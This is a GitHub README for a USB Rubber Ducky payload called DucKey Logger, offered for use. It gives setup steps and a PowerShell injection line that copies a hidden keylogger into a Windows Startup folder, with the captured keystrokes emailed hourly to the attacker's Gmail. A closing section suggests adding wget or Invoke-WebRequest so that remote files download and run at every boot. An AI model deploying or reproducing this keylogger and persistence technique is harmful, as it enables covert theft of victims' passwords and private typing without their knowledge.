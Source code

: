 # DucKey Logger V.2 
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
:::::::::  :::    :::  ::::::::  :::    ::: :::::::::: :::   :::
:+:    :+: :+:    :+: :+:    :+: :+:   :+:  :+:        :+:   :+:
+:+    +:+ +:+    +:+ +:+        +:+  +:+   +:+         +:+ +:+  
+#+    +:+ +#+    +:+ +#+        +#++:++    +#++:++#     +#++:   
+#+    +#+ +#+    +#+ +#+        +#+  +#+   +#+           +#+    
#+#    #+# #+#    #+# #+#    #+# #+#   #+#  #+#           #+#    
#########   ########   ########  ###    ### ##########    ###     
```

## Update:
**An New Version of This Payload Is Available [HERE](https://github.com/CosmodiumCS/payloads/tree/main/rubberducky/DucKey-Logger)**

## Overview:
```
DucKey Logger is a USB RubberDucky payload that uses PowerShell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will email the logs every startup and every hour [via SMTP]
    - sends logs hourly, regardless of system time

## Resources:
- [YouTube Video](https://www.youtube.com/watch?v=uHIZZYFeVJA)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck firmware
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 20 of *payload.txt*, change 'L' to the name of your ducky [SD Card]
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\p.ps1 $env:temp;cp .\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
3. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://www.youtube.com/watch?v=BzYH-BPHLpE)
4. load, encode, and deploy!!

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
